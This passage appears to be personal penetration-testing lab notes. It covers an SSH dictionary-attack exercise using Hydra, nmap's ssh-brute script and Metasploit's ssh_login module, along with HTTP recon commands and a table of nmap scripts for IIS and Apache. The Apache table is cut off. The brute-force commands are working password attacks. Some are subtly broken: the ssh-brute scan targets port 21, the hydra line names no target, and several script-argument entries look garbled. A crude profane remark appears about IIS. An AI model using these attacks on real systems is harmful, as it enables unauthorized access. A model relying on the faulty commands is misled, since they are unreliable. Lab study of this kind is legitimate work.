 <a id="5.12.1"></a>
### SSH Dictionary Attacks: Lab

Objective: find the "student" password with Hydra, the administrator with nmap and root with msfconsole.

```bash
$ echo student > student; echo administrator > administrator; echo root > root
$ hydra -L ./student -P /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt
# We get a hit on the password: "enemy"
$ nmap -p21 --script ssh-brute --script-args userdb=/root/administrator
# Password is "moonlight".
$ msfconsole
msf > use auxiliary/scanner/ssh/ssh_login
msf auxiliary > set RHOSTS $target
msf auxiliary > set USERPASS_FILE /usr/share/wordlists/metasploit/root_userpass.txt
msf auxiliary > run
# If a hit is given, an SSH session will be opened. It's terrible, though. 
```

<a id="5.13"></a>
## HTTP Recon

```bash
$ whatweb [TARGET]
$ dirb [TARGET]
$ gobuster dir -u [TARGET URL] -w /path/to/dirs
$ browsh --startup-url [TARGET URL] # For rendering websites in the terminal
```

<a id="5.14"></a>
## HTTP IIS: Nmap scripts

| Script                          | Function                                           | Args                       |
|-------------------------------- | -------------------------------------------------- | -------------------------- |
| http-enum                       | Enumerates directories used by web applications.   | Check the docs.            |
| http-headers                    | Performs a HEAD request.                           | path=[bool], useget=[dir]      |
| http-methods                    | Checks what methods are allowed.                   | [.]url-path=[dir]              |
| http-webdav-scan                | A script to detect WEBDAV installs.                | [.]path                      |

Don't forget that IIS sucks cock and balls. Use Apache instead!

<a id="5.15"></a>
## HTTP Apache

| Script | Function         |
| ------ | ---------------- |
| banner | Grab the banner! |
| 
